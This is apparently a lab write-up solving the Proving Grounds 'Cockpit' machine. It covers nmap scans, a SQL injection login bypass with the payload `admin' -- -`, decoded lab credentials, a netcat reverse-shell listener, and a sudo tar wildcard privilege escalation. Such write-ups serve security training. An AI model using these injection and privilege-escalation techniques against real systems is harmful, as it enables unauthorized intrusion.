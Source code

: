 ```yaml
---
date: '2024-10-11'
before : '2024-10-04'
after : '2024-10-11'
title: 'Proving Grounds : Cockpit'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Cockpit machine from Proving Grounds'
thumbnail: '../contentImages/cockpit/1.png'
---
```


## 1. Recon

Starting nmap scan
```
┌──(root㉿kali)-[/home/hslee]
└─# sudo nmap $vuln -p- -T4
Nmap scan report for 192.168.157.10
Host is up (0.040s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9090/tcp open  zeus-admin

```
Then continued port 9090
```
┌──(root㉿kali)-[/home/hslee]
└─# sudo nmap $vuln -p9090 -T4 -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 08:46 EDT

PORT     STATE SERVICE
9090/tcp open  zeus-admin
| ssl-cert: Subject: commonName=blaze/organizationName=d2737565435f491e97f49bb5b34ba02e
| Subject Alternative Name: IP Address:127.0.0.1, DNS:localhost
| Not valid before: 2024-10-06T12:41:26
|_Not valid after:  2124-09-12T12:41:26
|_ssl-date: TLS randomness does not represent time
```
And also for port 80
```
┌──(root㉿kali)-[/home/hslee]
└─# sudo nmap $vuln -p80 -sC -sV          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 08:48 EDT
Nmap scan report for 192.168.157.10
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
## 2. Initial Foothold
Visited port 80
![image](../contentImages/cockpit/1.png)

Then, visited port 9090
![image](../contentImages/cockpit/2.png)

I found login.php during fuzzing
![image](../contentImages/cockpit/3.png)

Hmm, blaze?

```
┌──(root㉿kali)-[/home/hslee]                                                                                  
└─# searchsploit blaze          

Blaze Apps - Multiple Vulnerabilities | asp/webapps/12734.txt           │
Blaze Apps 1.x - SQL Injection / HTML Injection | multiple/webapps/33995.txt 
```

There is SQL Injection vuln. I tried with simple quote:

![image](../contentImages/cockpit/4.png)
I tried simply `admin' -- -`, since there is a "like" operator. Then:

![image](../contentImages/cockpit/5.png)

base64 decoded, then I got:
```
james:canttouchhhthiss@455152
cameron:thisscanttbetouchedd@455152
```
ssh failed, so I should try port 9090.
Then I could login with james credential.

![image](../contentImages/cockpit/6.png)

There is a terminal. We can surely initialize our revshell.

## 3. Privesc

```
┌──(hlee㉿hlee)-[~/oscp/offsec/cockpit]
└─$ nc -lvnp 80    
listening on [any] 80 ...
connect to [192.168.45.223] from (UNKNOWN) [192.168.180.10] 53504
$ whoami
james
$ sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
$ 
```
As I logged in, I started with sudo -l. We see that we can use specific command from tar as root.


After googlig:

> https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

I followed the exact same steps, only with v option attached (which should not influence the poc)

![image](../contentImages/cockpit/7.png)

---
## Source

- Proving Grounds
- Me!